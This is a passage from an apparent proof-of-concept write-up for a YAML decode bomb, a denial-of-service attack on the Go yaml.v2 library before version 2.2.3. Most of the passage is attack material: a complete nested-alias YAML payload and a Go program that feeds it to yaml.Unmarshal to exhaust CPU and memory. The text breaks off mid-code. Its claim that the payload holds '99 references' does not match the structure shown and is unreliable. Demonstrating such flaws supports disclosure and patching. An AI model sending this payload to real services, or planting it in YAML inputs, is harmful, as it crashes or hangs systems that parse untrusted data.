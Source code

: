 This Proof of Concept demonstrates the YAML Decode Bomb vulnerability. It requires a Golang environment and a vulnerable version of a YAML parsing library (e.g., `gopkg.in/yaml.v2` prior to version `2.2.3`).

1. Malicious YAML File (yaml_bomb.yml):

Create a file named yaml_bomb.yml with the following content. This structure creates 99 references to the initial array a, leading to exponential expansion.

```YAML

a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

2. Golang Code to Trigger the Vulnerability (main.go):

Create a file named main.go. Ensure the import path for the YAML library points to a known vulnerable version. For this example, we conceptually target gopkg.in/yaml.v2 at a version < 2.2.3.

```Go

package main

import (
	"fmt"
	"io/ioutil"
	"log"
	// For a real PoC, ensure this is a vulnerable version, e.g., by managing
	// dependencies in go.mod to use gopkg.in/yaml.v2@v2.2.2 or similar.
	"gopkg.in/yaml.v2"
)

func main() {
	yamlFilePath := "yaml_bomb.yml"
	yamlData, err := ioutil.ReadFile(yamlFilePath)
	if err!= nil {
		log.Fatalf("Failed to read PoC YAML file '%s': %v", yamlFilePath, err)
	}

	fmt.Printf("Attempting to parse PoC YAML bomb from '%s' (%d bytes)...\n", yamlFilePath, len(yamlData))
	fmt.Println("Watch system CPU and memory consumption.")

	var result interface{} // Use interface{} to accept any YAML structure

	// The vulnerable call: Unmarshaling the YAML bomb
	err = yaml.Unmarshal(yamlData, &result)

	if err!= nil {
		// On a patched system, or if internal limits are hit, an error might be returned.
		// Example: "yaml: document contains excessive aliasing"
		// On a truly vulnerable system without effective limits, the process
		// will likely consume excessive resources and crash before reaching here,
		// or be killed by the OS.
		log.Printf("YAML Unmarshal operation completed with an error (this might indicate parser limits or a patched library): %v", err)
	} else {
		// This block should ideally not be reached if the bomb is effective against
		// a vulnerable parser, as the process would crash or hang indefinitely.
```